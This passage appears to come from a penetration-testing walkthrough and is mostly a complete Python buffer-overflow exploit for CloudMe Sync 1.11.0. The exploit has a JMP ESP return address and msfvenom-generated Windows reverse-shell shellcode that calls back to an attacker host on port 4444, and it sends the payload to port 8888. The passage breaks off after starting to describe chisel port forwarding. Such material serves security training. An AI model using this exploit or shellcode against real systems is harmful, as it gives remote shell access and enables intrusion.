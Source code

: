    #Disclosure Date: March 12, 2018
    #Response Date: March 14, 2018
    #Bug Fixed: April 12, 2018

    # Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

    import socket

    target="127.0.0.1"

    junk="A"*1052

    eip="\x7B\x8A\xA9\x68"		#68a98a7b : JMP ESP - Qt5Core.dll

    #msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1 LPORT=4444 -f c

    shellcode=( "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
    "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
    "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
    "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
    "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
    "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
    "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
    "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
    "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
    "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
    "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
    "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x18\x68"
    "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
    "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
    "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
    "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
    "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
    "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
    "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
    "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
    "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

    payload=junk+eip+shellcode

    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(payload)

## chisel

We will use [chisel](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md#chisel)
in order to access `CloudMe` service.

On our kali we run `chisel` in server mode.
